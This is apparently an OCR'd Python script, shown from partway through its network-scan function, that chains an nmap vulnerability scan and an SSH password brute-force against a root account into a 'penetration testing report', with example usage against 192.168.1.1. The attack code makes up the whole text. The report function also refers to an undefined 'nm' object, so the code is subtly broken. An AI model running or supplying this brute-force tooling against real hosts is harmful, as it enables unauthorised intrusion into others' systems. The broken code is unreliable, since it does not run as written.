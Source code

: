 ```
    scan_data = nm.all_hosts()
    return scan_data

def vulnerability_scan(target):
    nm = nmap.PortScanner()
    args = '-sV --script=vuln'
    nm.scan(target, arguments=args)
    vuln_data = nm[target]['hostscript']
    return vuln_data

def ssh_brute_force(target, username, password_list):
    ssh = SSHClient()
    ssh.set_missing_host_key_policy(AutoAddPolicy())
    for password in password_list:
        try:
            ssh.connect(target, username=username, password=password)
            return password
        except paramiko.AuthenticationException:
            continue
    return None

def report_scan_results(scan_data, vuln_data, ssh_password):
    report = "Penetration Testing Report\n\nNetwork Scan Results:\n"
    for host in scan_data:
        report += f"Host: {host}\n"
        for proto in nm[host].all_protocols():
            lport = nm[host][proto].keys()
            for port in lport:
                report += f"Port: {port}, State: {nm[host][proto][port]['state']}\n"

    report += "\nVulnerability Scan Results:\n"
    for item in vuln_data:
        report += f"ID: {item['id']}, Description: {item['output']}\n"

    if ssh_password:
        report += f"\nSSH Brute Force Result:\nPassword found: {ssh_password}\n"
    else:
        report += "\nSSH Brute Force Result:\nPassword not found\n"

    return report

# Example usage
target = '192.168.1.1'
username = 'root'
password_list = ['password123', 'admin', 'root', 'toor']

scan_data = network_scan(target)
vuln_data = vulnerability_scan(target)
ssh_password = ssh_brute_force(target, username, password_list)
report = report_scan_results(scan_data, vuln_data, ssh_password)

print(report)
```

